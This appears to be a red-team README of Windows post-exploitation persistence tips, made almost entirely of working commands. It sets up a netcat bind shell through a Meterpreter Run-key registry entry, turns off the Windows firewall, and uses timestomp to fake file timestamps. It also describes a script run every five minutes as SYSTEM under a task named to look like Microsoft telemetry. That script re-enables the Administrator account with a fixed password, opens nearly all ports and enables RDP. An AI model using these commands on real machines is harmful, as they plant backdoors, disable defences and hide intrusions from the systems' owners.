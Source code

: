 # Windows Persistence

**Tips for staying persistent on Windows (Austin Pabst)**

Post exploit netcat Backdoor:

Open meterpreter >
- `upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32`
- `reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run`
- `reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'`
- `reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc`
- `execute -f cmd -i`

`C:Windows\system32>`
- `netsh advfirewall set allprofiles state off`
- `netsh advfirewall show allprofiles`
- `netsh advfirewall firewall add rule name="Open Port 445" dir=in action=allow protocol=TCP localport=445`
- `netsh firewall show port`
- `Shutdown -r -t 0`

Open New Terminal
- `nc -v 10.0.x.8 445`

***might work might not***

## Time Stomp in Meterpreter

Credit to Jesse More

This is how you TimeStomp a Windows mahcine with Metasploit Meterpreter.

Check the time stamp of file
`meterpreter> timestomp YOURFILE.exe -v`

Change the time to the CMD.exe time
`meterpreter> timestomp YOURFILE.exe -f C:\\WINNT\\system32\\cmd.exe`

Then validate:
`meterpreter> timestomp YOURFILE.exe -v`

Reference: 
https://www.offensive-security.com/metasploit-unleashed/TimeStomp/


## remote.ps1

(Carl Pearson - INL)

Assuming admin priviliges on compromised host, you can set this script to run at a regular interval to:
- Re-enable the built-in Administrator account (password r3dt34m)
- Allow inbound/outbound TCP/UDP ports 1-64000
- Enable RDP connections

Can run as a scheduled task or however you prefer. For example, running every 5 minutes through Task Scheduler task:

`schtasks /create /ru "NT AUTHORITY\SYSTEM" /tn "Microsoft Telemetry Scheduler" /tr "powershell.exe -executionpolicy bypass C:\path\to\remote.ps1" /sc MINUTE /mo 5`
